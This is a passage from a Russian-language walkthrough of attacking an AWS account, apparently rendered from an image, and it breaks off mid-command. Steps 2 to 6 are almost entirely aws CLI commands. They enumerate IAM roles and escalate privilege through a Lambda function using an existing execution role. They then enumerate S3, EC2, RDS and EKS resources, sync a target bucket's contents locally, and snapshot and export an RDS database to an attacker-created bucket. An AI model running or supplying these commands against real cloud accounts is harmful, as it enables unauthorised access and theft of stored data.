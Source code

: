 #### **Шаг 2: Поиск векторов эскалации**
```bash
# Поиск ролей для принятия
aws iam list-roles

# Анализ политик ролей
aws iam get-role --role-name LambdaExecutionRole
aws iam list-attached-role-policies --role-name LambdaExecutionRole
```

#### **Шаг 3: Lambda-based эскалация**
```bash
# Создание Lambda функции для эскалации
aws lambda create-function \
    --function-name privilege-escalation \
    --runtime python3.9 \
    --role arn:aws:iam::account:role/LambdaExecutionRole \
    --handler lambda_function.lambda_handler \
    --zip-file fileb://escalation-lambda.zip

# Вызов Lambda функции
aws lambda invoke \
    --function-name privilege-escalation \
    --payload '{"action": "escalate"}' \
    response.json
```

#### **Шаг 4: Разведка ресурсов**
```bash
# Перечисление S3 бакетов
aws s3 ls

# Перечисление EC2 инстансов
aws ec2 describe-instances

# Перечисление RDS инстансов
aws rds describe-db-instances

# Перечисление EKS кластеров
aws eks list-clusters
```

#### **Шаг 5: S3 Data Exfiltration**
```bash
# Анализ доступных бакетов
aws s3api get-bucket-policy --bucket target-bucket
aws s3api get-bucket-acl --bucket target-bucket

# Скачивание данных
aws s3 sync s3://target-bucket/ ./local-data/
```

#### **Шаг 6: RDS Snapshot Attack (через S3)**
```bash
# Создание S3 бакета для экспорта
aws s3 mb s3://malicious-rds-exports

# Создание снимка RDS
aws rds create-db-snapshot \
    --db-instance-identifier target-db \
    --db-snapshot-identifier malicious-snapshot

# Экспорт снимка в S3
aws rds start-export-task \
    --export-task-identifier malicious-export \
```